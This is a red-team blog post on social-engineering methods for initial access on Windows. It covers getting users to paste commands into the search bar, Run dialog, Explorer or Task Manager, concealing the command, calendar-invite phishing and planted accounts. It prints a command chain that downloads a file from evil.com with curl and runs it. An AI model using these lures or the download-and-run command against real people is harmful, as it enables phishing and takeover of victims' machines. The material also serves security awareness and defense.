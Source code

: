 ```yaml
---
title: Social Engineering Your Way Into The Network
date: "2022-07-03"
featuredImage: ''
---
```


This post discusses how an attacker can social engineer users in ways that go beyond the traditional methodology<!-- end -->.

# Introduction

Most organizations have some sort of security awareness training and I've seen some which are quite robust and effective. Although it does not make initial access impossible, it does make it more difficult and time consuming. Defenders and security vendors know what to expect when it comes to initial access. Matt Hand's <a href="https://posts.specterops.io/hang-fire-challenging-our-mental-model-of-initial-access-513c71878767" target="_blank">blog post</a> summarized initial access with the following statement:

> An attacker sends their thing. A user clicks the thing. The thing goes boom. The attacker has a callback.

To stop attackers you teach your users to avoid "clicking the thing" and build prevention and detection mechanisms with that statement in mind.

## Browser & OS Security

Additionally, default security controls for operating systems and browsers have made it increasingly difficult for users to download and execute files. 

For example, when a user lands on a phishing page and attempts to download a binary, Chrome will display a warning to the user. If the user ignores the warning and attempts to execute the binary then Windows SmartScreen will produce another warning to the user. All of these warnings may give users second thoughts before executing our malicious file during an engagement.

## Purpose

The purpose of this blog post is to try to come up with unexpected ways to social engineer users in order to increase our initial access success rate.

# Initial Access Via Copy Pasting

```Ctrl + C``` and ```Ctrl + V``` is part of everyone's day-to-day actions when using a computer. With that being said, security training programs don't warn users of the dangers when pasting commands in certain places on a Windows machine. Let's take advantage of this gap to help us potentially gain initial access on the machine.

## Windows Search Bar

**Tested on Windows 10. Doesn't work on Windows 11**.

If you didn't know, the Windows search bar allows you to execute commands. In the mind of most users it is considered a benign location which makes it a perfect location to have them paste a malicious command. Most users would not assume that by searching for something that they can unknowingly give remote access to their machine. Below is an example of what an attacker's email could say.

![Search-Email](./search-email.png)

When the user pastes the command, the Windows search bar will run it as a command instead.

![Search-Results](./search-results.png)

### Length Limit

The content the user pastes should be less than 255 characters.

## Windows Explorer

**Tested on Windows 10/11**.

Explorer's address bar is also a location that can be used to execute commands. An example email asking the user to paste a command in the Explorer address bar is shown below.

![Explorer](./explorer-email.png)

The user would need to paste the command as shown below.

![Explorer-Run](./explorer-run.png)

## Windows Run

**Tested on Windows 10/11**.

The Windows Run Dialog Box is also another option that users can paste our malicious commands in. It's simple to launch due to the built in shortcut ```Windows + R``` and has a relatively benign and generic looking input field. It is also common knowledge that the Windows Run Dialog Box is used to launch applications. On the other hand it is not common knowledge for the average user that pasting commands there can be dangerous.

Below is a sample email an attacker could send.

![Run-Email](./run-email.png)

The breakdown of the example command is shown below.

```
# Generic text to comfort the user
cmd /c echo Open company.pdf with the password: c0mp@ny123. &&

# Downloading the malicious file
cmd /c curl evil.com/company.pdf > %temp%\company.pdf && 

# Executing the file
%temp%\company.pdf
```

The command would be pasted into the Windows Run Dialog Box.

![Run-Dialog-Box](./run-box.png)

### Length Limit

The content the user pastes should be less than 260 characters.

## Task Manager

**Tested on Windows 10/11**.

The task manager also has a hidden field to run commands. An example email from an attacker would look like this.

![Task-Manager](./task-manager.png)

### Length Limit

The content the user pastes should be less than 260 characters.

## LOLBIN Compatible

Note that you're not limited to Cmd.exe or Powershell.exe when running commands, you can use LOLBINs instead.

![LOLBIN](./lolbin-1.png)

## Hiding The Malicious Command

To have a better success rate, your command should probably be inline with user expectations. Another option is to simply hide the malicious command by making the user<a href="https://www.bleepingcomputer.com/news/security/dont-copy-paste-commands-from-webpages-you-can-get-hacked/" target="_blank">unknowingly copy a benign command</a>.Furthermore, you can hide parts of the command by making it blend with the background color.

![Hidden-Text](./hidden-text.png)

# Calendar Invites

Calendar invites are another source of phishing that organizations don't train their users on sufficiently. I've personally had success with calendar invites and I found the two best approaches are:

1. Sending a calendar invite to the target with non-existent users from the company as particpants (e.g. someone.realistic@company.com).
2. Use faked .ics files as shown <a href="https://mrd0x.com/spoofing-calendar-invites-using-ics-files/" target="_blank">here (Gmail)</a> or <a href="https://www.exandroid.dev/2021/04/24/phishing-with-fake-meeting-invite/" target="_blank">here (Outlook)</a>.

![Invite](./invite.png)

# Establishing An Alternate Communication Channel

Users are commonly trained to never type away their credentials without double checking they're on the right website. But what if someone provides the user with credentials to a new email address or any other communication channel? This goes against the logic that users have been trained for.

![New-Account](./new-account.png)

In this example, the account may be pre-configured with malicious files on OneDrive or phishing emails in their inbox.

# Conclusion

Yes we would all like it if the user were to just download and execute our binary but sometimes it may take some added creativity to eventually reach our goal. In this post I've demonstrated several ways that you can throw a user off when it comes to initial access. I'm sure there's more out methods out there but I think this post helps you to think outside the box.